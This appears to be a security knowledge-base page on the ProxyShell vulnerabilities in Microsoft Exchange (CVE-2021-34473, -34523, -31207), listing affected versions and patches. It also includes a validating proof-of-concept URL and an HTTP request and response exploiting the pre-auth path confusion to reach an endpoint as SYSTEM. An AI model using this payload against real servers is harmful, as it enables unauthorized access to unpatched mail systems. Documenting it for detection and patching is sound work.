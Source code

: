 ```yaml
---
title : "CVE-2021-34473"
# pre : ' '
description : "ProxyShell, the name given to a collection of vulnerabilities for Microsoft Exchange servers, enables an actor to bypass authentication and execute code as a privileged user."
date : 2021-08-25T09:47:29+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207 | ProxyShell

CVE-2021-34473
Pre-auth path confusion vulnerability to bypass access control
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-34523
Privilege elevation vulnerability in the Exchange PowerShell backend
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-31207
Post-auth remote code execution via arbitrary file write
Patched in [KB5003435](https://support.microsoft.com/help/5003435), released in May

This vulnerability affects:

* Exchange 2013 CU23 < 15.0.1497.15
* Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5
* Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9

## Examples

### Validating POC

```plain
https://<<ip>>/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

```plain
GET /autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com HTTP/1.1
Host: exch.offsec.nl
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
```

```plain
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html
Server: Microsoft-IIS/8.5
request-id: af2ae0ee-6593-4523-8fa1-5d283d7ae3da
X-CalculatedBETarget: exch.offsec.nl
X-ServerApplication: Exchange/15.01.1913.012
X-DiagInfo: EXCH
X-BEServer: EXCH
X-AspNet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Sun, 25-Aug-1991 07:43:18 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-FEServer: EXCH
Date: Wed, 25 Aug 2021 07:43:17 GMT
Connection: close
Content-Length: 522

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.1913.12<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> exch.offsec.nl<br><b>Mailbox:</b> exch.offsec.nl</p><p><br><br><br><b>Created:</b> 25-8-2021 07:43:18</p></body></html>
```

## URL List

* [Zerodayinitiative.com - From Pwn2Own 2021: A New Attack Surface on Microsoft Exchange - ProxyShell!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
* [News.sophos.com - ProxyShell vulnerabilities in Microsoft Exchange What to do](https://news.sophos.com/en-us/2021/08/23/proxyshell-vulnerabilities-in-microsoft-exchange-what-to-do/)
